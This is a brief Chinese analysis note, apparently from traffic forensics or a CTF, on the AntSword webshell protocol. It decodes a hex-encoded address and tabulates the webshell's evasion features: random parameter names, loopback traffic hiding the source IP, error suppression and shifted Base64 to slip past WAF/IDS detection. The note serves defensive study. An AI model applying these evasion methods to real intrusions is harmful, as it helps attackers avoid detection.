

搜索了一下蚁剑的通信协议, 这后面的伪编码实际上是一段 base16 编码, 那么直接解码:



得到地址。

### 蚁剑协议总结: 

> 总结

| 通信特征                  | 作用                                                                                   |
| ------------------------- | -------------------------------------------------------------------------------------- |
| 随机参数名                | 每次请求动态生成参数名, 规避基于固定参数名的 WAF/IDS 规则匹配, 降低特征稳定性          |
| 回环通信, 隐藏真正的源 IP | WebShell 与自身服务器回环交互, 外部流量仅体现为本地请求, 掩盖真实攻击源 IP             |
| 魔数包裹输出流            | 在响应数据前后插入固定魔数, 用于客户端准确截取有效 payload, 绕过内容污染与混淆分析     |
| 关闭错误输出和时间限制    | 通过 `error_reporting(0)` / `set_time_limit(0)` 等手段, 避免异常信息暴露与长执行被中断 |
| BASE16 (Hex) 编码         | 将二进制或不可见字符转为可打印字符, 绕过内容过滤并稳定跨协议传输                       |
| 偏移的 BASE64             | 对 Base64 编码结果进行字符偏移/替换, 破坏常规 Base64 特征, 逃避正则与指纹检测          |

